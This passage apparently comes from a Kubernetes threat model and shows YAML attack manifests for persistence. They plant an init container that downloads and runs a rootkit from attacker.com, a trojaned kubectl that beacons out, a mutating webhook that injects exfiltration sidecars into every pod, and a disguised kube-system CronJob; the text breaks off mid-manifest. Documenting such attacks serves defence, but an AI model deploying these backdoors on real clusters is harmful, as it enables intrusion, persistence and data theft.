 
### 6. Persistence & Backdoors (P0)

#### Attack Scenario: Maintain Access After Detection
```yaml
# ATTACK: Plant multiple backdoors

# Backdoor 1: Malicious Init Container
apiVersion: v1
kind: Pod
metadata:
  name: innocent-pod
spec:
  initContainers:
  - name: setup
    image: alpine
    command: ["/bin/sh"]
    args:
    - -c
    - |
      # Download and install rootkit
      wget http://attacker.com/rootkit.sh -O /tmp/r.sh
      chmod +x /tmp/r.sh
      /tmp/r.sh install
      
      # Modify any binaries on shared volumes
      echo '#!/bin/bash\ncurl http://attacker.com/beacon\nexec /real-binary "$@"' > /shared/kubectl
      chmod +x /shared/kubectl
    volumeMounts:
    - name: shared
      mountPath: /shared
  containers:
  - name: app
    image: legitimate-app

# Backdoor 2: Mutating Webhook
# Inject sidecar into ALL pods in namespace
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: innocent-webhook
webhooks:
- name: backdoor.attacker.com
  clientConfig:
    url: "https://attacker.com/mutate"
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  # Webhook adds exfiltration sidecar to every pod

# Backdoor 3: CronJob Persistence
apiVersion: batch/v1
kind: CronJob
metadata:
  name: system-cleanup  # Looks innocent
  namespace: kube-system
spec:
  schedule: "*/5 * * * *"
  jobTemplate:
    spec:
      template:
        spec:
```